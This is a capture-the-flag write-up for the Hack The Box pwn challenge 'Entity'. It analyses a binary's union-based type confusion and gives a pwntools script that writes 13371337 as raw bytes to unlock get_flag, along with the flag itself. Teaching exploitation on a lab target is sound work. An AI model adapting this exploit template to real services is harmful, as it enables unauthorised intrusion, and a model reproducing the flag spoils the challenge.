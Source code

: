 # Entity
> Write-up author: vreshco
## DESCRIPTION:
This Spooky Time of the year, what's better than watching a scary film on the TV? Well, a lot of things, like playing CTFs but you know what's definitely not better? Something coming out of your TV!
## HINT:
- NONE
## STEPS:
1. Given 3 files -> 64 bit ELF, the source-code and the fake flag.
2. Let's check the binary's protections.

> VULN -> No Canary Found, Partial RELRO.

![image](https://user-images.githubusercontent.com/70703371/233789347-e9cdc9bd-c428-4fa5-ae4e-0a776ba0a525.png)


3. Let's analyze the source-code, analyzing the main() function, we know there's 3 functions we need to pay attention at.

![image](https://user-images.githubusercontent.com/70703371/233789392-a3fca842-f0aa-4307-ac30-359de3b66f26.png)


4. Start by the `set_field` function, there's no bufferoverflow, the input stored at the buf variable shall saved to the DataStore.integer.

![image](https://user-images.githubusercontent.com/70703371/233789432-4830f805-62d5-4f6e-ad94-6c66fa270fdd.png)


5. Analyzing the `get_field()` function, it just printed out the value stored.

![image](https://user-images.githubusercontent.com/70703371/233789520-1c649a02-869a-43b4-a2c2-2be25f4ca4bf.png)


7. At the `get_flag()` function which is our goal here, it shall printed out the flag if the integer variable of DataStore struct holds 13371337.

![image](https://user-images.githubusercontent.com/70703371/233789582-6a60693f-09e3-4609-85fa-254dc931600e.png)


8. But the problem is, at the `set_field()` function, we need to bypass the if statement, to prevent the program exits and we can use the value stored to get the flag.

![image](https://user-images.githubusercontent.com/70703371/233790009-77b9bf15-c2f2-4f62-8fd9-66aa5bed083c.png)


9. Seems like we need to call T to fill the value and press C to get the flag.
10. Then it shall asked, if we press T, then it asks what data type we want to store.

![image](https://user-images.githubusercontent.com/70703371/233790291-79848056-6774-4455-839b-c95c2a40a1ef.png)


11. But if we press R before, it shall asks what data type stored that we want to print.
12. Anyway let's run the binary.

![image](https://user-images.githubusercontent.com/70703371/233790347-148172a5-66ce-4246-825c-4705537f0438.png)


13. Since it's comparing the integer value in order to get the flag, let's input integer then.

![image](https://user-images.githubusercontent.com/70703371/233790398-db8f1f92-f020-429c-b8ae-f69b8712f2bb.png)


14. Forgot that it quits right after it compared the integer.

![image](https://user-images.githubusercontent.com/70703371/233790412-f1c55d90-328d-43e4-abf3-d17f14ab7ae7.png)


15. Means we need to send strings and get the flag with it (?)

![image](https://user-images.githubusercontent.com/70703371/233790494-30cf174b-0d3f-45db-86ad-4796b5283703.png)


16. Yep it denies it, the only way to bypass this, we need to sends the hex or we can sends raw bytes.
17. Let's build the script.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './entity'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

p = flat([
    13371337
])

sh.sendlineafter(b'>> ',b'T')
sh.sendlineafter(b'>> ', b'S')
sh.sendlineafter(b'>> ', p)
sh.sendlineafter(b'>> ', b'C')

sh.interactive()
```

> TEST LOCALLY

![image](https://user-images.githubusercontent.com/70703371/233790667-7791fd76-a69b-4b32-8086-fe8b3d31d24e.png)


> TEST REMOTELY

![image](https://user-images.githubusercontent.com/70703371/233790697-e382b727-c64f-41ff-86fd-3971fcd8b3a3.png)


18. Got the flag!


## FLAG

```
HTB{th3_3nt1ty_0f_htb00_i5_5t1ll_h3r3}
```


